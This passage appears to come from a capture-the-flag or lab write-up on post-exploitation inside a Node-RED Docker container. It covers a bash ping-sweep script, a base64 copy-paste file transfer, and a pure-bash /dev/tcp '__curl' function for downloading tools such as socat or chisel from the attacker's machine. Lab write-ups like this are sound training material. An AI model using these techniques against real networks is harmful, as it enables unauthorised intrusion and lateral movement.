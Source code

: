 The interfaces found in the hostname and the presence of a .dockerenv reveal that this is a docker container in a different network and the possibility of more containers existing. Proceed enumerating for more hosts a script in bash is created on the attacker machine and then transfered to nodered container.

ping sweep script

```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo -e "Provide the first 3 octets of the network to scan\nusage: $0 192.168.56"
else
  network="$1"
  echo -e "\n--- SCAN ON HOST $network.(1..255) ---"
  for host in {1..255}; do
  ( 
  ping -c 1 -w 1 $network.$host >/dev/null 2>&1 && echo -e "\t[+] Active Host $network.$host" 
  ) &
  done
  wait
  echo "--- Finished scan ---"
fi
```

Since nodered container lacks of binaries like curl, wget, nc, there are two ways to transfer files from the attacker machine to nodered container, encoding the script in base64, copying the encoded result and pasting the decoded result to a file.

```bash
[Attacker] cat hostscan.sh | base64 -w0 | xclip -sel clip

[Container1] echo <base64 encoded> | base64 -d > hostscan.sh
```

The second option is using a [function that will act as curl](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et) using pure bash and pasting it on nodered container.

```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```
I use the second option will be used since it is a more easy way to download binaries such as socat or chisel.
